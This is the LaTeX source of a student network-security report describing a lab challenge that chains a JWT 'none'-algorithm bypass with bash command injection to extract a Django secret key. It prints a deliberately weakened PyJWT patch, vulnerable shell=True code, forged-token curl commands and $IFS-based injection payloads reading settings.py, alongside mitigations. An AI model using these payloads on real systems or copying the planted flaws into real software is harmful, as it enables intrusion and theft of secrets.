\documentclass[12pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{hyperref}

\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{float}
\usepackage{paralist}

\usepackage{listings}
\usepackage{verbatim}


% ToDo's
\usepackage{color}
\newcommand{\mynote}[3]{
  \textcolor{#2}{
    \fbox{\bfseries\sffamily\scriptsize#1}
    {\small\textsf{\emph{#3}}}
}}

% Inline-Code
\newcommand{\code}[1]{\texttt{#1}}

\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.97,0.97,0.97}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

\lstset{ %
  backgroundcolor=\color{mygray},   % choose the background color
  basicstyle=\footnotesize,        % size of fonts used for the code
  breaklines=true,                 % automatic line breaking only at whitespace
  captionpos=b,                    % sets the caption-position to bottom
  commentstyle=\color{mygreen},    % comment style
  escapeinside={\%*}{*)},          % if you want to add LaTeX within your code
  keywordstyle=\color{blue},       % keyword style
  stringstyle=\color{mymauve},     % string literal style
  numbers=left,
  stepnumber=1,
  showstringspaces=false
}

    \lstdefinelanguage{CSS}{
      keywords={li, border, background },  
      sensitive=true,
}


\title{JSON Web Tokens and Bash Injection}
\author{Network Security HS16 - Group 6\\Lukas Bischofberger, Silvan Egli, Jonas Passerini, Lukas Widmer}

\begin{document}

\maketitle

\begin{abstract}
%a short summary of the challenge. You should include the problem or vulnerability addressed by the challenge and the approach used to exploit the vulnerability.

A chat services suffers from two vulnerabilities, which allow an arbitrary user to gain administrative access rights and to extract the secret key of the web application by performing a bash injection.
The first part of the challenge is a JSON Web Token (JWT) vulnerability where the client is able to select a trivial 'none' signing algorithm. Using a fake authentication token, it is possible to circumvent the authentication mechanism and send chat messages as an administrator. This enables a normal user to send privileged admin commands.
The second part of the challenge exploits a bash injection, which is possible due to a wrongly configured subprocess call with unsanitized user input and therefore allows arbitrary code execution. A malicious admin command can be crafted to extract the secret key from the settings file.

\end{abstract}

\section{Challenge Description}

\subsection{Type of Challenge}
%whether the challenge is online or offline. For example, exploiting a web application requires the application to be online, whereas analyzing captured packets can be done offline.

The first part of the challenge requires to analyze and craft authentication tokens, which can be done offline. To test the crafted tokens, the web application needs to be online.

For the second part of the challenge, the web application needs to be running in order to extract the secret key, and is therefore an online attack.

\subsection{Category}
%one or more categories for the challenge. You can see a full list of possible challenges by going to the Hacking Lab home page, clicking the Statistics tab near the center of the page, and then clicking Challenge Details under the Challenge Statistics box.

The challenge belongs to the category Web Security and also requires some basic Linux and Networking understanding.

\subsection{Mission}
%a summary of the challenge objective. For example, a school's online registration form may have an SQL injection vulnerability. Using SQL injection in this form to execute a DROP statement can cause a school to lose their entire year's student records.

A simple chat service is provided by a company in the form of a web application. There is only one chat room, and all authenticated users might read messages and send new ones to this chat room. There is an additional administrative role, which allows users belonging to this role to invoke several admin commands, e.g. to change the background color of the chat window. Admin commands sent by basic users have no effect. Figure \ref{fig:chatapp} shows the message board of the chat application.


\begin{figure}
	\centering
	
\includegraphics[scale=0.7]{chatapp.png}
	\caption{The chat application showing the message board, two messages (one by max and one by admin), and an admin command changing the border of the messages to black.}
	\label{fig:chatapp}
\end{figure}

The secret key used by the chat service is  highly sensitive, since it is also used by other services of the company. The goal of the challenge is to expose the secret key.
To achieve the goal, two vulnerabilities need to be combined in a clever way.
In a first step, an attacker has access to a basic user account and the goal is to gain administrative user rights by circumventing the token based authentication mechanism.
In a second step, the attacker uses the administrative rights gained in the previous step to craft a malicious admin command, which exposes the secret key.


\subsection{Learning Goal}
%what you hope students will learn from the challenge and why it is important. For example, if the challenge is to perform a TLS-based man-in-the-middle attack using a similar-looking domain name, students will learn the importance of checking that the domain name in the certificate matches the one in the address bar. This is important because it is usually much easier to obtain a fraudulent certificate for a similar-looking domain name than for the actual domain.

The first part of the challenge teaches the student about how to collect and analyze token based authentication mechanisms, in particular JSON Web Tokens. The vulnerability should increase the awareness of the problem, if the client is allowed to choose the signing algorithm.

The second part of the challenge demonstrates the danger of executing unsanitized input from an untrusted source and how to exploit such a vulnerability with a limited interface.

\subsection{VM Setup and How to Get Started}
After importing the provided \code{.ova} file with VirtualBox, two VM's are available: A webserver \code{NetsecServer}, where the chat application is deployed and running, as well as a client VM \code{NetsecClient}, which should be ready out of the box to interact with and analyze the chat application. Before starting the two VM's, make sure that for both machines, the network adapters are marked to be cable connected (VM $\rightarrow$ Settings $\rightarrow$ Network $\rightarrow$ Adapter X $\rightarrow$ Advanced $\rightarrow$ Cable Connected is enabled). On the VM \code{NetsecServer} the adapter 3 needs to be adjusted, on the \code{NetsecClient} the network adapters 1 and 2 (when exporting the VM's, this setting is unfortunately lost). Both VM's can now be started.

The following credentials can be used to interact with the system:
\begin{itemize}
	\item User on Client Machine: \code{client}:\code{client}
	\item Basic Chat User: \code{max}:\code{123456}
	\item Admin Chat User: \code{admin}:\code{superadmin} (not needed for the exploit)
	\item User on Server Machine: \code{netsec}:\code{netsecpass} (not needed for exploit)
\end{itemize}

On the \code{NetsecClient} VM, the chat application should be accessible using Chromium at \url{https://web.netchat} (if not, make sure that both VM's have a network adapter to be configured in the same internal network).

\section{Implementation}
%\subsection{Requirements}

The web application is split into two parts. A user faces the frontend application which runs in the browser and communicates with the API which runs on the server. The JWT is sent in the header of each request to authenticate the calls.

\subsection{Frontend}
The frontend of the chat application is implemented using Angular2\footnote{https://angular.io/}. It displays the user friendly interface, renders the HTML pages and handles all user input. The data is then sent to the API in JSON format. 
 
\subsection{API / Backend}
The backend is implemented in Python using the web framework Django \footnote{\url{https://www.djangoproject.com/}} and SQLite is used as the database backend. The backend provides a RESTful api with the help of the "Django REST framework" \footnote{\url{http://www.django-rest-framework.org/}}. The api is used by the frontend in order to authenticate a user as well as sending and retrieving chat messages. 

\subsubsection{JWT Authentication}
Token based authentication is provided by the "REST framework JWT Auth" \footnote{\url{http://getblimp.github.io/django-rest-framework-jwt/}} which depends on PyJWT \footnote{\url{https://pypi.python.org/pypi/PyJWT/1.4.0}}, a Python implementation of JSON Web Tokens. In order to log in, the frontend sends the user's credentials (username and password) to the backend, where they are verified. If they are correct, Django issues a JWT and signs it with the applications secret key. An informative explanation of the structure and the concepts of a JWT can be found on jwt.io \footnote{\url{https://jwt.io/introduction/}} and will therefore not be discussed here in more detail. 
The frontend will provide the JWT along with every further request within an HTTP Authorization header. Upon receipt, Django decodes the JWT and verifies the Signature using the algorithm declared in the Token.

\subsubsection{JWT Vulnerability}
We first read about the JWT vulnerability in an Auht0~\cite{auth0-jwt-vuln} blog post.
In order to enable the JWT vulnerability, we had to patch the PyJWT library. More precisely, the following line in the \code{algorithms.py} file had to be changed from

\begin{lstlisting}[language=python]
class NoneAlgorithm(Algorithm):
    def verify(self, msg, key, sig):
        return False
 
 \end{lstlisting}
 to 
 \begin{lstlisting}[language=python]
class NoneAlgorithm(Algorithm):
    def verify(self, msg, key, sig):
        return True
  
  \end{lstlisting}
 
 With the above change, a user can login by providing a forged JWT, specifying \code{none} as the preferred algorithm in the header, and the desired userID in the payload. A forged token could therefore be of the following form:
 \begin{verbatim}
{"alg":"none", "typ":"JWT"}.{"username":"admin"}.AnySignature
  \end{verbatim}

\subsubsection{Command Injection}
Command injection is an attack in which the goal is the execution of arbitrary commands on the host operating system via a vulnerable application.~\cite{owasp-cmd-inj} \\
In our chat application, besides normal text messages, an admin user can send the following two specially formatted messages, which will be interpreted by Django differently.
\begin{enumerate}
\item \textbf{\code{\textbackslash background pink} } \\
Sets the background color of the chat messages to the specified color (i.e. pink)
\item \textbf{\code{\textbackslash border black} } \\
Sets the color of the line separating two messages to the specified color (i.e. black) 
\end{enumerate}


\paragraph{Implementation}

\noindent \\Code listing \ref{lst:admin_command} shows the implementation responsible for the command injection vulnerability. Messages sent from an admin user are processed in the following way.

\begin{enumerate}
\item The \code{execute\_admin\_command} function (line 7) parses the \code{message}. It checks whether the \code{message} consists of two strings separated by a whitespace and whether the first string matches one of the two constants defined in \code{CMD\_BACKGROUND} and \code{CMD\_COLOR}. If so, it calls the corresponding function (i.e. \code{change\_background} or \code{change\_border}) with the second string as an argument. As the two functions are very similar, we will focus on \code{change\_background}.

\item \code{change\_background} constructs the system command as a string (line 15) by putting in the \code{color} provided by the admin and the location of the css file defined in \code{CSS\_FILE}. The content of the \code{custom.css} file is shown in listing \ref{lst:css_file}. The idea is to replace the background color in the \code{CSS\_FILE} file with the new \code{color} by making use of the \code{sed} \footnote{\url{http://unix.stackexchange.com/questions/159367/using-sed-to-find-and-replace}} stream editor.

\item  The system command is executed in a new shell (line 16) by using \code{check\_output} from Python's subprocess module \footnote{\url{https://docs.python.org/2/library/subprocess.html}}. In our setting, we will use Bash (/bin/bash) as the default shell.
\end{enumerate}


\begin{lstlisting}[caption={Excerpt of the command injection vulnerability implementation},label={lst:admin_command}, language=python] 
 from subprocess import check_output

 CSS_FILE = "/opt/netsecDjango/static/custom.css"
 CMD_BACKGROUND = "\\background"
 CMD_COLOR = "\\border"

 def execute_admin_command(message):
     command = message.split(' ')
     if len(command) == 2 and command[0] == CMD_BACKGROUND:
         return change_background(command[1])
     elif len(command) == 2 and command[0] == CMD_COLOR:
         return change_border(command[1])
     return "normal admin message"

 def change_background(color):
    command = 'sed -i "s/background:.*/background: ' +  color + ' ;/g" ' + CSS_FILE
    return check_output(command, shell=True)

 def change_border(color):
    command = 'sed -i "s/border:.*/border: ' + color + ';/g" ' + CSS_FILE
    return check_output(command, shell=True)
\end{lstlisting}

\begin{lstlisting}[caption={\code{custom.css} file, defining the colors of a chat message},label={lst:css_file}, language=CSS] 
 li {
        border: black;
        background: pink ;
 }
\end{lstlisting}

\paragraph{Vulnerability}
\noindent \\The command injection vulnerability arises from two inattentions:
\begin{enumerate}
\item \underline{Insufficient user input validation:} The \code{execute\_admin\_command} function parses the admin's message but does not check whether the provided value is a valid color encoding.
\item \underline{shell=True:} Setting shell=True in Python's subprocess module makes the command being executed through the shell, allowing any usage of shell supported features such as command substitution \footnote{\url{http://www.tldp.org/LDP/abs/html/commandsub.html}}. 
\end{enumerate}
As a result, an admin user can pass any string instead of a color value which will then be interpreted by the shell. The only restriction on the input is, that it may not contain any spaces. By using command substitution, he could therefore send a message of the form
\begin{verbatim}
\background ${bash_command}
\end{verbatim} 
resulting in a bash command being executed in a subprocess with the privileges of the Django application, including access to the file system. The color value of the background property in the custom.css file will be replaced by whatever \code{bash\_command} returns. As the custom.css file is fetched by the frontend with an HTTP request, the return value of the injected bash commands can be looked up in the corresponding HTTP response. 

\paragraph{User feedback}
\noindent \\In order to make the life of an attacker a bit easier, we return the possible error from the \code{check\_output} subprocess call in the status field of a message object.  The status field will not be displayed but can be found by inspecting the HTTP responses.



\section{Solution}

\subsection{Hints}
%up to three hints to give to users solving the challenge.
\begin{enumerate}
	\item Analyze the tokens used to authenticate chat messages. Can you decode the token to reveal further information about the library used to verify the tokens?
	\item The admin commands do not require any database access. Try to find out what happens, e.g. if an administrator changes the background color of the chat window.
	\item The secret key of a Django applications is usually stored in a file called settings.py
\end{enumerate}

\subsection{Step-by-Step Instructions}
%a description of every step a user has to perform to solve the challenge. This does not need to be the final version, but it should allow us to get a feel for the challenge.

The step-by-step instructions assume that you use Linux (e.g. the provided client VM), but all the commands can be adopted to other systems. Most of the steps can also be performed directly in the browser (e.g. Chromium) by interacting with the Developer Tools of the browser and the web interface of the chat application. However, sending direct GET and POST requests using \code{curl} or a similar tool might reveal more interesting details.

The commands described in the following can also be found in the appendix file \code{group06\_exploit.txt} together with example tokens, such that they can easily be copied into a terminal.

\subsubsection{Part 1: JWT Exploit to Bypass Authentication}

\begin{enumerate}
	\item Open the web application and log in as user \code{max} with the password \code{123456}.
	\item Extract the JWT token, e.g. open the Developer Tools in the browser, go to the Resources tab and inspect the Session Storage. Alternatively, you can also create a few messages and analyze the TCP packets using Wireshark~\cite{wireshark} or Tamper Data~\cite{tamperdata}. The token is of the form \code{Header.Payload.Signature} and is \code{base64} encoded.
	
	Verify that you have the correct token by creating a new chat message using the following terminal command: 
	\begin{verbatim}
		curl https://web.netchat/api/messages/ --insecure
		--data 'text=Hello World'
		-H 'Authorization: JWT YOUR_TOKEN'
	\end{verbatim}
	
	Reload the chat and you should see a new message created by the user \code{max}.
	
	\item Decode the token using a base64 decoder\footnote{\url{https://www.base64decode.org/}} (decode the \code{Header} and the \code{Payload} separately) or use an online JWT Debugger\footnote{\url{https://jwt.io/}}. As you can see, the \code{Header} specifies an algorithm and the \code{Payload} contains all the user information such as the \code{username} or the \code{user\_id}. 
	\item To craft a fake admin token, change the algorithm to \code{none}, and set the username to \code{admin}.
	% --> not needed
	%, the \code{user\_id} to \code{1} and remove the \code{Signature} (but %not the last dot). Re-encode the token, which then should have the form %\code{Header.Payload.}
	
	Test your new token by creating a chat message:
	\begin{verbatim}
	curl https://web.netchat/api/messages/ --insecure
	--data 'text=Hello Admin World'
	-H 'Authorization: JWT ADMIN_TOKEN'
	\end{verbatim}
	
	Reload the chat and you should see a message created by the user \code{admin}.
	
	\item One can also replace the JWT token inside the Session Storage of the browser with the crafted one such that the user of the web application is authenticated as the admin, and the commands can directly be created through the web interface.
	 
\end{enumerate}

\subsubsection{Part 2: Expose the Secret Key with a Bash Injection}

Note that you can directly jump to step 6 if you are only interested in extracting the secret key, but following all the steps provides you with a more detailed approach and how an attacker could come up with such a solution.

\begin{enumerate}
	\item Now that we have a valid token to authenticate ourself as an administrator, we can use the token to play around with the admin commands. The following command for example changes the background of the chat messages to red:
	\begin{verbatim}
		curl https://web.netchat/api/messages/ --insecure
		--data 'text=\background red'
		-H 'Authorization: JWT ADMIN_TOKEN'
	\end{verbatim}
	
	Send a chat message using the web interface to verify that the background is now red.
	
	\item After issuing some admin commands through the web interface and analyzing the POST requests sent by the browser (e.g. with Wireshark or Tamper Data), one can observe that after each POST request, an additional GET request is performed to the API endpoint \code{https://web.netchat/api/css/} to fetch the new layout.
	
	Let's observe the response body of such a request by manually requesting it using the following terminal command:
	\begin{verbatim}
		curl https://web.netchat/api/css/ --insecure
		-H 'Authorization: JWT ADMIN_TOKEN' 
	\end{verbatim}
	
	The body of the response looks like basic CSS code, containing styling parameters for the border and the background of chat messages, exactly the same values which can be changed with the admin commands. Make sure that this request works, as it will become very important later.
	
	\item In the next step, try to issue various admin commands with different values for the colors and observe how the body of the CSS response changes. E.g. try the "color" \code{helloworld}:
	\begin{verbatim}
	curl https://web.netchat/api/messages/ --insecure
	--data 'text=\background helloworld'
	-H 'Authorization: JWT ADMIN_TOKEN'
	\end{verbatim}
	
	 You can also issue the command within the web application using the command \code{\textbackslash background helloworld}. Check that the value of the attribute \code{background} in the CSS response now really is \code{helloworld}.
	 
	 An additional, important observation is, that values containing white space like \code{hello world} are not working.
	 
	 \item To check whether the admin commands are vulnerable to shell injections, we have to prepare our shell commands without spaces, since they are otherwise not interpreted as command as seen in the previous step. There are several tricks to do so~\cite{whitespace}, one possibility is to use the Internal Field Separator \code{\$IFS} instead of a whitespace.
	 
	 When trying out some commands, e.g. to list the contents of the current working directory:
	 \begin{verbatim}
	 	curl https://web.netchat/api/messages/ --insecure
	 	--data 'text=\background $(ls)'
	 	-H 'Authorization: JWT ADMIN_TOKEN'
	 \end{verbatim}
	 
	 one can see that the \code{status} flag of the message is \code{"Admin command error: sed: -e expression \#1, char 176: unknown option to s'\textbackslash n"}, which reveals that the internal mechanism works with the Linux program \code{sed}. This are great news, since we can use this as output for our shell injection, but in order to do so we need to replace any newline characters from the output. This can be achieved with the Linux command \code{tr}, which can be used to translate or remove characters. E.g. \code{ls | tr "\textbackslash n" ","} removes all newline characters from the output of the \code{ls} command and replaces them with a comma.
	 
	 If we replace all the spaces with Internal Field Separators, we can use the command to perform our first successful bash injection:
	 
	 \begin{verbatim}
	 	curl https://web.netchat/api/messages/ --insecure
	 	--data 'text=\background $(ls|tr$IFS"\n"$IFS",")'
	 	-H 'Authorization: JWT ADMIN_TOKEN'
	 \end{verbatim}
	 
	 If we now request the CSS layout again, we can see that the value of the \code{background} parameter now contains the directory listing:
	 
	 \code{chat,db.sqlite3,manage.py,requirements.txt,static,venv}
	 
	 \item By adjusting the command to
	 
	 \code{text=\textbackslash background \$(ls\$IFS"chat"|tr\$IFS"\textbackslash n"\$IFS",")}

	  one can see that there is a file called \code{settings.py} in the \code{chat} folder.
	 
	 \item Finally, expose the contents of the \code{settings.py} file with the following terminal command:
	 
	 \begin{verbatim}
		 curl https://web.netchat/api/messages/ --insecure
		 --data 'text=\background $({grep,SECRET,chat/settings.py})'
		 -H 'Authorization: JWT ADMIN_TOKEN'
	 \end{verbatim}
	 
	 Request the CSS layout with the command mentioned in step 2 to retrieve the secret key:
	 
	 \begin{verbatim}
	 	"li { \n\tborder: red;\n\tbackground: SECRET_KEY =
	 	'Congratulations you just compromised the highly
	 	secure super duper secret key !' ;\n}\n"
	 \end{verbatim}
	 
	 Another interesting approach would be to open a reverse shell using the shell injection and access the key directly.
	 
\end{enumerate}




\section{Mitigation}
%how can the vulnerability be fixed or mitigated so that the challenge exploit does not work? For example, if the challenge vulnerability is that an HTTPS request can be intercepted and rewritten as an HTTP request, a mitigation is to have the server's response enforce the future use of HTTPS. This would protect against future attacks, though not an ongoing attack.

The JWT vulnerability can be solved by disallowing clients to choose an algorithm, especially disallowing the 'none' algorithm. Additionally, all dependencies should be kept up to date to prevent other vulnerabilities.

The bash injection vulnerability can be prevented by properly sanitizing the user input and by disabling the shell access. A nicer solution would be to prevent the use of subprocesses completely and instead manage the color configuration within Django, e.g. by writing the values to the database and dynamically parse the website using a templating system.

The attacker had full access to the system by executing arbitrary commands or opening a reverse shell, therefore the whole system is compromised and all keys should be renewed, including all the systems which used the same secret key.



\section{Conclusion}
The presented challenge consists of two vulnerabilities and demonstrates how they can be combined to extract the secret key of a web application. The student learns how JWT works and how the token authentication can be bypassed, if the client is able to select a weak or even trivial signing algorithm.
The student also learns how to perform a bash injection by exploiting a subprocess call suffering from unsanitized user input.
Both vulnerabilities reflect common problems, which could mostly be tackled in a simple way.



\bibliographystyle{plain}
\bibliography{bibliography}

\end{document}
